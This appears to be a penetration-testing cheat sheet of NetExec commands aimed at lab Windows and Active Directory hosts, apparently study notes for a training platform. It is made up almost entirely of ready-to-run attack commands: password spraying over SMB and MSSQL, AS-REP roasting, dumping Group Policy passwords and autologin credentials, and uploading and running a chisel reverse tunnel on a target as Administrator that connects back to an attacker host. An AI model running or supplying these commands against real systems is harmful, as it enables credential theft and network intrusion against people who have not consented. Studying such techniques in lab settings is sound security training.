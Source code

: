 ### <mark style="color:yellow;">Password Spraying</mark>

```powershell
# Single password
nxc smb 10.129.203.121 -u users.txt -p pass123

# Password list
nxc smb 10.129.203.121 -u users.txt -p pass.txt

#n Continue on succes / local auth
nxc mssql 10.129.204.177 -u users.txt -p pass.txt --continue-on-succes --local-auth
```

### <mark style="color:yellow;">Find ASREPRoastable</mark>

```powershell
# Bruteforce
nxc ldap dc01.zencorp.local -u users.txt -p '' --asreproast asreproast.out

# Search with credentials
nxc ldap dc01.zencorp.local -u joe -p pass123 --asreproast asreproast.out
```

### <mark style="color:yellow;">Chisel with NXC</mark>

```sh
# Run chisel server on VM
./chisel server --reverse

# Upload chisel to target
nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe --local-auth

# Run client
nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' -x "C:\Windows\Temp\chisel.exe client 10.10.15.68:8080 R:socks" --local-auth 
```

### <mark style="color:yellow;">Group Policy Objects</mark>

```powershell
# GPP Find Passwords
nxc smb 10.129.203.121 -u john -p pass123 -M gpp_password

# GPP Autologin
nxc smb 10.129.203.121 -u john -p pass123 -M gpp_autologin
```

### <mark style="color:yellow;">Modules</mark>

<pre class="language-powershell"><code class="lang-powershell"># For any module
nxc ldap -L
nxc winrm -L
